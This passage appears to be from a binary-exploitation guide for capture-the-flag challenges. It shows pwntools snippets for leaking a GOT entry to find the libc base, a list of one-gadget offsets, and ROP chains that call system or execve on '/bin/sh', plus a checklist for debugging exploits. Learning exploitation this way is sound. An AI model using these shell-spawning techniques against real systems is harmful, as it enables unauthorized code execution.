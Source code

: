 ### Libc Exploitation
**GOT Leak Strategy**:
```python
# Leak GOT entry
io.sendline(payload_to_leak)
leak = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
libc.address = leak - libc.symbols['<function>']
log.info(f"libc base: {hex(libc.address)}")
```

**One-Gadget Constraints**:
```python
# Find one-gadgets
one_gadgets = [0x4f2c5, 0x4f322, 0x10a38c]

# Common constraints:
# [rsp+0x30] == NULL
# [rsp+0x50] == NULL
# rcx == NULL

# Try multiple if first fails
for og in one_gadgets:
    # Test each one-gadget
    pass
```

**System/Execve Invocation**:
```python
# system("/bin/sh")
rop.call(libc.symbols['system'], [next(libc.search(b'/bin/sh\x00'))])

# execve("/bin/sh", NULL, NULL)
rop.execve(next(libc.search(b'/bin/sh\x00')), 0, 0)
```

## Problem-Solving Patterns

### When Exploit Doesn't Work
**Systematically check**:
1. **Offsets correct?** - Re-verify with cyclic pattern
2. **Null bytes?** - Use different approach or change payload order
3. **Alignment?** - Add extra `ret` gadget for 16-byte alignment
4. **ASLR?** - Ensure leak is working and base calculation is correct
5. **IO synchronization?** - Add `recvuntil()` or `recvline()` to sync state
6. **Gadget side effects?** - Check what else gadget modifies (e.g., `pop r15`)
7. **Buffer size?** - Ensure payload fits in buffer
8. **Remote differences?** - Check libc version, environment differences

### When Stuck on Analysis
**Ask these questions**:
1. What input does the program accept?
2. Where does user input go in memory?
3. What can I overflow/corrupt with user input?
4. What's the goal? (Code execution, info leak, arbitrary read/write)
5. What's preventing the exploit? (Protections, constraints)
6. What information do I need to leak first?
7. Are there any unintended behaviors or edge cases?
